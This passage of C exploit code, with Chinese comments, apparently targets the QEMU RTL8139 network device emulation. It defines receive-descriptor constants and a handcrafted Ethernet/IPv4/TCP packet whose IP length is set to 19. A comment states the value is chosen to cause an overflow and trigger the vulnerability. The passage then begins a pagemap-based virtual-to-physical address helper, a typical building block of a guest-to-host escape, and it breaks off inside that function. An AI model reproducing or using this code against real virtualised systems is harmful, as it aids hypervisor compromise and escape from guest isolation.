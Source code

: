 ```
#define CP_RX_BUFFER_SIZE_MASK ((1&lt;&lt;13) - 1)
/* w1 tag available flag */
#define CP_RX_TAVA (1&lt;&lt;16)
/* w1 bits 0...15 : VLAN tag */
#define CP_RX_VLAN_TAG_MASK ((1&lt;&lt;16) - 1)
/* w2 low  32bit of Rx buffer ptr */
/* w3 high 32bit of Rx buffer ptr */


/*配置网络帧内容*/
uint8_t rtl8139_packet[] = `{`
    //目标mac地址
    0x52, 0x54, 0x00, 0x12, 0x34, 0x57, 
    //源mac地址
    0x52, 0x54, 0x00, 0x12, 0x34, 0x57, 
    //代表IPV4
    0x08, 0x00, 

    //报头长度
    (0x04 &lt;&lt; 4) | 0x05,
    //TOS
    0x00,
    //这里由于我们需要设置长度为19,从而实现溢出（触发漏洞）
    0x00, 0x13,
    //Identification
    0xde, 0xad,
    //Flags &amp; Fragment Offset(必须为64的整数倍,所以直接设置为64)
    0x40, 0x00,
    //TTL通常为32,64,128这里直接设置为64
    0x40,           
    //Protocol为6代表TCP
    0x06,
    // Header checksum
    0xde, 0xad,
    //源IP:127.0.0.1
    0x7f, 0x00, 0x00, 0x01,
    //目的IP:127.0.0.1
    0x7f, 0x00, 0x00, 0x01,

    // IP Packet Payload 数据, 即 TCP 数据包
    //源端口
    0xde, 0xad,
    //目的端口
    0xbe, 0xef,
    //Sequence Number
    0x00, 0x00, 0x00, 0x00,
    //Acknowledgement Number
    0x00, 0x00, 0x00, 0x00,
    //报头长度,其中Header Length只占4位,后面的4位加上下面ACK中的2位都是保留位,保留位必须为0
    0x50,
    //从第3位开始是Control Flags,其中第4位代表ACK
    0x10,
    //Window Size
    0xde, 0xad,
    //TCP checksum
    0xde, 0xad,
    //Urgent Pointer
    0x00, 0x00
`}`;

//使用pagemap通过虚拟地址计算物理地址
size_t virtuak_addr_to_physical_addr(void *addr)`{`
    uint64_t data;
```